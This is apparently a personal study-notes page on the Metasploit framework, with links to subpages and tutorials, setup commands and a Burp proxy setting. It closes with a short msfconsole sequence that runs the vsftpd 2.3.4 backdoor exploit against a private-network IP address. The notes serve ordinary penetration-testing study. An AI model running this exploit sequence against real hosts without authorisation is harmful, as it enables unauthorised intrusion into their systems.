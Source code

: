 ```yaml
---
{"dg-publish":true,"permalink":"/net/sec/tools/metasploit/"}
---
```




- [[metasploit - doing an exploit\|metasploit - doing an exploit]]
- [[metasploit - port scan\|metasploit - port scan]]
- [[metasploit - docker\|metasploit - docker]]
- [[metasploit - Global options\|metasploit - Global options]]
- [[metasploit - flags\|metasploit - flags]]


---

- [Docs (Metasplot Pro)](https://docs.rapid7.com/metasploit/)
- [Docs - nooblinux tutorial](https://nooblinux.com/metasploit-tutorial/)
- [MUO](https://www.makeuseof.com/beginners-guide-metasploit-kali-linux/)
- [SMB Exploit Article](https://medium.com/dark-roast-security/dark-side-126-using-metasploit-to-exploit-smb-89108ba609aa)



## Using with [[burpsuite\|burpsuite]]

```shell-session
set PROXIES HTTP:127.0.0.1:8080
```
## Installation in [[Kali Linux\|Kali Linux]]

- https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/

```bash
sudo msfdb init
```


## Components

### msfconsole

### msfdb

### msfvenom

### msfinterpreter



## Location

```bash
cd /usr/share/Metasploit-Framework
```


** [Metasploit commands - Hacking Tutorials](https://www.hackingtutorials.org/metasploit-tutorials/metasploit-commands/)





---


```
search vsftpd
```

```
exploit/unix/ftp/vsftpd_234_backdoor
```

```
show options
```

```
set RHOSTS 192.168.64.5
```

```
exploit
```

